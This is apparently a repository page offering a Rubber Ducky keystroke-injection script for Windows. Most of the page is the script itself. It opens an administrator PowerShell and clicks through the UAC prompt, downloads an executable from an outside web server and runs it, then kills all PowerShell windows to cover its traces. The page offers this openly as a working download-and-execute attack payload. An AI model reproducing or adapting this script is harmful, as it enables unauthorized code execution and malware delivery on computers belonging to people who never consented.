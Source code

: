 A ducky script that uses the powershell to download and execute a file from a webserver, then close all powershell windows (with another powershell). Intended for use with windows 10 target, but probably works with Windows 7 and 8.

Change the link and what name to save the file as 
Preview: https://www.youtube.com/watch?v=3WojmjCiXnw

```
REM Windows 10: Poweshell administrator download and execute file
REM Author: Judge2020
REM author website: Judge2020.com
REM
REM start of script
REM
REM let the HID enumerate
DELAY 2000
GUI r
DELAY 200
REM my best attempt at a elevated powershell instance
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
ALT y
DELAY 500
STRING $down = New-Object System.Net.WebClient; $url = 'http://www.greyhathacker.net/tools/messbox.exe'; $file = 'mess1.exe'; $down.DownloadFile($url,$file); $exec = New-Object -com shell.application; $exec.shellexecute($file);
ENTER
REM change delay based on how big of a file and how fast network is
DELAY 2000
GUI r
DELAY 200
REM my best attempt at now closing all powershell instances
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1200
ALT y
DELAY 500
STRING taskkill /F /IM powershell.exe 
ENTER
```